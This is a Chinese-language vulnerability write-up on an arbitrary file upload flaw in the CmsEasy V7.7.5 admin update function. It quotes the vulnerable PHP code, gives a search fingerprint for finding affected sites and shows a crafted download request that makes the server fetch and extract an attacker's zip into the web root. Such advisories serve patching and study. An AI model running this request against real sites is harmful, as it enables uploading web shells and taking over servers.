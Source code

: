 # 

# CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 漏洞影响

```
CmsEasy V7.7.5_20210919
```

## 网络测绘

```
body="cmseasyedit"
```

## 漏洞复现

![image-20220518143113914](./images/202205181436747.png)

存在漏洞的文件为 `lib/admin/update_admin.php`

![image-20220518143714802](./images/202205181437877.png)

其中需要注意的代码为

```
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```

![image-20220518143733612](./images/202205181437707.png)

写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```
zip phpinfo.zip phpinfo.php
```

构造下载请求

![image-20220518143751402](./images/202205181437504.png)

```
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```

![image-20220518143812559](./images/202205181438629.png)

![image-20220518143830101](./images/202205181438160.png)


